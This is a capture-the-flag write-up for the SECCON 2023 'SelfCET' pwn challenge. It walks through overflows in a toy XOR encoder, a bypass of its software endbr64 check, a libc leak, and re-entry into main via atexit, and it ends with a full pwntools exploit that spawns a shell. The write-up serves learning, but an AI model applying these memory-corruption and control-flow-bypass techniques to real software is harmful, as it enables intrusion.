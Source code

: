 +++
title = "SECCON CTF Quals 2023: SelfCET (pwn)"
author = "Marco Pellero, Domingo Dirutigliano"
tags = ["pwn"]
date = "2023-09-28"
+++

This challenge is a simple XOR encoder: it reads a key and a message, both 32 byte strings, XORs them together and prints the result.
Example:
```
[KEY] 888
[MSG] nop
[OUT] VWH
```

The key and the message are stored in a struct with some error handling features:
```c
struct {
	char key[32];
	char buf[32];
	const char* error;
	int status;
	void (*throw)(int, const char*, ...);
} ctx_t;
```

When an error occurs `error` is set to a relevant message, `status` is set to `EXIT_FAILURE`, a check is performed on `throw()` to prevent it from derailing control flow, and then it is called with `error` and `status` as parameters.

For example, here's how reading input from the user is implemented:
```c
void read_member(ctx_t *ctx, off_t offset, size_t size) {
	if (read(STDIN_FILENO, (void*)ctx + offset, size) <= 0) {
		ctx->status = EXIT_FAILURE;
		ctx->error = "I/O Error";
	}
	
	ctx->buf[strcspn(ctx->buf, "\n")] = '\0';
	
	if (ctx->status != 0) {
		CFI(ctx->throw)(ctx->status, ctx->error);
	}
}
```

I had never seen the type `off_t` before, it's used here to choose which field of the `ctx_t` struct to read; it just indicates the field's offset (for example, `buf`'s offset is 32).

The control-flow check performed on `throw()` is implemented as a macro `CFI` that we can see being used in the failure branch, this is what the macro looks like:
```c
#define INSN_ENDBR64 (0xF30F1EFA) /* endbr64 */
#define CFI(f) \
	({ \
		if (__builtin_bswap32(*(uint32_t*)(f)) != INSN_ENDBR64) \
			__builtin_trap(); \
		(f); \
	})
```

This is just a weird way to check that the first assembly instruction of `throw()` is `endbr64`, and crash the process if it isn't.

By googling a bit i learned about CET (Control-Flow Enforcement Technology) and CFI (Control-Flow Integrity), which are security measures used to prevent control flow corruption techniques like ROP chains.
Put simply, if we mark the start of functions with `endbr64`, when performing a call on a function pointer (like  `throw()`) if we find that we're not jumping to an `endbr64`, we know we're performing an invalid jump, and that there has been an attempt to corrupt the control flow.
These checks are performed by the CPU and only work if the CPU, the OS, libraries, and the program itself all support and use CET; this program implements a software CET instead.

Looking at when the user input is actually read, we can see we have 2 buffer overflows:
```c
int main() {
	ctx_t ctx = { .error = NULL, .status = 0, .throw = err };
	
	read_member(&ctx, offsetof(ctx_t, key), sizeof(ctx));
	read_member(&ctx, offsetof(ctx_t, buf), sizeof(ctx)); // definitely OOB!
	
	encrypt(&ctx);
	write(STDOUT_FILENO, ctx.buf, KEY_SIZE);
	
	return 0;
}
```

It's reading `sizeof(ctx)` bytes instead of `sizeof(key)` and `sizeof(buf)` (both are 32 bytes). We're able to first overwrite the whole `ctx` struct, and then also overwrite 32 bytes outside of it and into main's frame pointer, though this isn't very useful since there's the canary.

Since we can overwrite `throw()`, we have an arbitrary call with 2 controlled parameters, but we have no leaks; the binary isn't PIE, but we're limited to functions starting with `endbr64`, and there aren't any useful ones in the binary itself.

We can leak the libc by setting `error` to a GOT entry, but `err()` also calls `exit()`; we need some way to leak the libc without also crashing..
We can achieve this via a partial overwrite, and by looking at `endbr64` occurrences near `err()`, i found `warn()`, which behaves like `printf()`.

So with my first payload i'll set the status to a GOT entry (it's then passed as the first parameter to `throw()`), and overwrite the lower bytes of `throw()` to point to `warn()`.

Now `read_member()` is called again, and i can call any libc function i want.
I can't call one_gadgets because they don't start with `endbr64`, and i can't call `system()` because the first parameter must be a pointer to "/bin/sh", but it's nowhere in the binary's memory, and since `status` is an int i can only pass a 4 byte number, and libc addresses are much bigger than that.

I wasn't able to find a way to spawn a shell or read the flag from here, so i tried to find ways to jump to main again, which i can't do directly because it doesn't start with `endbr64` (`_init()` does, but it checks if it's already been called once, and if so doesn't start main).

What i ended up doing is calling `atexit()` to register `main()` as an exit handler, which means that before closing the program, `main()` will be called again, and i can perform a second stage of my attack, in which i first call `gets()` to read "/bin/sh" into memory, and then `system()` using this address.


Here's the final exploit:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./xor")
libc = ELF("./libc.so.6")

context.binary = exe


io = process("./xor")

# leak libc by printing a GOT entry via a partial overwrite (throw goes from err() to warn())
payload = b'\n' + b'A'*63 + p64(exe.got["err"])*2 + b"\x10\x10"
io.send(payload)

io.recvuntil(b": ")
leak = u64(io.recv(6).ljust(8, b'\0'))
libc.address = leak - libc.sym["err"]
log.info(f"libc @ {hex(libc.address)}")

payload = b'\n' + b'A'*31 + flat(1, exe.sym["main"], libc.sym["__cxa_atexit"])
io.send(payload)
log.info("Registered main as an exit handler, starting again")

# read '/bin/sh' into memory so we can use it to call system()
payload = b'\n' + b'A'*63 + flat(1, exe.bss(0x100), libc.sym["gets"])
io.send(payload)
io.sendline(b"/bin/sh")

# finally, call system()
payload = b'\n' + b'A'*31 + flat(1, exe.bss(0x100), libc.sym["system"])
io.send(payload)

io.interactive()
```

Enjoy hacking!
